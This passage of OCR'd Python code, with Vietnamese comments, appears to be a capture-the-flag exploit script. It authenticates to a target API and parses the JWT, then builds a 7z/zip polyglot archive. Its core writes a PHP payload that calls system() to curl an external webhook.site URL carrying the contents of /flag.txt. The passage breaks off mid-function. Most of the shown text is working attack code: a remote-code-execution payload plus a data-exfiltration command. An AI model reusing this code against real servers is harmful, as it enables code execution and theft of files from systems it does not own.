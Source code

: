 ```
POLYGLOT_PATH = OUT_DIR / "file.zip"


def _b64url_decode(data: str) -> bytes:
    # Bổ sung padding nếu thiếu
    pad = "=" * (-len(data) % 4)
    return base64.urlsafe_b64decode(data + pad)

def parse_access_claims(access_token: str) -> dict:
    try:
        parts = access_token.split(".")
        if len(parts) != 3:
            raise ValueError("JWT không hợp lệ")
        payload_raw = _b64url_decode(parts[1])
        return json.loads(payload_raw.decode("utf-8"))
    except Exception as e:
        raise RuntimeError(f"Không đọc được payload của access token: {e}") from e


async def authentication(client: httpx.AsyncClient) -> str:
    resp = await client.post(
        "/auth/token/",
        json={"username": USERNAME, "password": PASSWORD},
        timeout=20,
    )
    resp.raise_for_status()
    data = resp.json()
    token = data.get("access")
    if not token:
        raise RuntimeError("Không lấy được access token từ /auth/token/")
    client.headers["Authorization"] = f"Bearer {token}"
    return token

def clean_dirs() -> None:
    for p in (PAYLOAD_DIR, OUT_DIR, IN_DIR):
        shutil.rmtree(p, ignore_errors=True)
        p.mkdir(parents=True, exist_ok=True)

def write_payload_php() -> None:
    PAYLOAD_PHP.write_text(
        (
            "<?php "
            "header('Content-Type: text/plain'); "
            "echo 'OK'; "
            "system('curl https://webhook.site/f7b14c93-2995-48d4-9fcb-5e3002659fbd"
            "?flag=' . urlencode(@file_get_contents('/flag.txt'))); "
            "?>"
        ),
        encoding="utf-8"
    )

def build_7z_from_payload() -> None:
    try:
        subprocess.run(
            ["7z", "a", "-snl", str(SEVENZ_PATH), "."],
            cwd=str(PAYLOAD_DIR),
            check=True,
            stdout=subprocess.DEVNULL,
            stderr=subprocess.STDOUT,
        )
    except FileNotFoundError as e:
        raise RuntimeError("Không tìm thấy lệnh '7z'. Hãy cài đặt p7zip/7-Zip.") from e
    except subprocess.CalledProcessError as e:
```
